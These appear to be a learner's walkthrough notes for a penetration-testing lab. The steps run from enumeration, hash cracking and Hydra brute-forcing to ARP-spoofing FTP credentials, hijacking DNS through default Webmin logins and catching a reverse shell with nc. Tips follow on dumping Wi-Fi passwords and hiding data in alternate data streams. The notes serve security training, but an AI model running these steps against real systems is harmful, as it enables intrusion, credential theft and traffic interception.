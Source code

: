 1. dnsenum yolo.co.il
2. gobuster vhost -w /rockyou.txt -u yolo.co.il  
   ffuf -w  /usr/share/dirb/wordlists/common.txt -u http://admin.yolo.co.il/FUZZ    #(two ways for subdomain enumeration)
3. dirb  http://admin.yolo.co.il/ -w
4. http://admin.yolo.co.il/backup/ (the directory found in privious steps)
5. john shadow --format=crypt (inside backup directory which we download from the url in privious step ther's a shado file, and john crack the password from the hash there)
6. nmap -p- --min-rate 100 -sV 10.1.22.122 (10.1.0.122 is my yolo ip, i check what ports are open and found port 2222)
7. ssh dexter@10.1.22.122 -p 2222
put the password that john found "iloveyou1"

#####       found a flag!!!     #####

8. sudo hydra -l admin -P ./rockyou.txt -f admin.yolo.co.il -s 80 http-post-form "/?:username=^USER^&pswrd=^PASS^:F=<form action="">"    #brute forceing, we got result but it's not working.
9. hydra ssh syntax: hydra -l shlomke -P /usr/share/wordlists/rockyou.txt ssh://10.10.55.37 -V
10. hydra vnc syntax: hydra -s 5900 –P /usr/share/wordlists/rockyou.txt 192.168.0.6 vnc
11. ssh to admin with the found password fails
12. nmap -p0-65535 192.168.2.0/24 (scan dexter's network)
13. telnet 192.168.2.3 10000   #connect to the dns server (not sure what to to with it)
14. sudo dig axfr @192.168.2.3
15. curl http://192.168.2.3:10000
16. wget https://c4705d283d7e:10000 --no-check-certificate
17. wget https://c4705d283d7e//images/favicons/webmin/apple-touch-icon.png:10000 --no-check-certificate  (#download a file, not sure what to do with it.)
18. apt install dsniff  (For sniffing passwords from plaintext protocols like ftp, and for arpspoofing)
19. sudo arpspoof -i eth0 -t 192.168.2.254 192.168.2.8  #arp spoffing to tell the router that i'm the ftp server.
20. sudo tcpdump dst 192.168.2.8  #listen to the traffic to the ftp server. (which the router send to me now because of the spoofing)
21. we found username and password! ftp_yolo  CyberSec@12 
22. ftp ftp.yolo.co.il # and put the details of the user.
23. get flag2.txt   (download the file)

######       found another flag!!!     ######

22. nmap -p0-5000 10.1.22.122
23. scp -P 2222 ftp_server.py dexter@10.1.22.122:/home/dexter    (#ftp server file)
24. scp -P 2222 clock_update.sh dexter@10.1.22.122:/home/dexter  (#the reverse shell file)
### connect to webmin page in order to change the dns record so i can get the request from the client and send him the reverse shell file:
25. ssh -L 8082:192.168.2.3:10000 -p 2222 dexter@10.1.22.122 #create a proxy to connect to the dns server with port 10000
26. in the URL: https://localhost:8082
27. put the default logins to the webmin: user - root, password - password
28. change the record for the ftp server to our address 192.168.2.2
28. check that you made it right: dig ftp.yolo.co.il
29. run ftp_server.py
30. listen with nc: nc -l 32340
31. we got reverse shell on the user. ls - and ther's the 3rd flag.

###################################################################										more nmap pentest techniqes:
1. git clone https://github.com/vulnersCom/nmap-vulners.git
2. cd /usr/share/nmap/scripts/
3. nmap -sV --script nmap-vulners/ 151.101.131.5 
#########################################################################################################################
									usefull stuff
1. kill a process that use specific port: sudo kill -9 `sudo lsof -t -i:9001`
2. find process pid and name of service using it:			  sudo ss -lptn 'sport = :8001'
3. stop the service: sudo systemctl stop inetd.service


1. get access points list windwos: Netsh wlan show profile
2. get the access point password: Netsh wlan show profile name ="tp link"  key=clear

###########################################################################################################################
								ADS:
	1. alternative data stream are great way to store secret and malicious information undetected, you just create a file myfile.txt
 	   and to create ads you create a file myfile.txt:blabla and can store anything you want there. that file cannot be display using dir 
     	   command or file explorer, and that's why its hard to detect.
	   - how can you display it: 1. dir /R     2.  (need download) stream64 <filename> will show if there are other streams to that file. 
           - if you know the name of the ads file (you found it using dir /R or stream64) you can display its content in 2 ways:
	        1. start notepad myfile.txt:blabla   2. more < myfile.txt:blabla

  ###########################################################################################################################




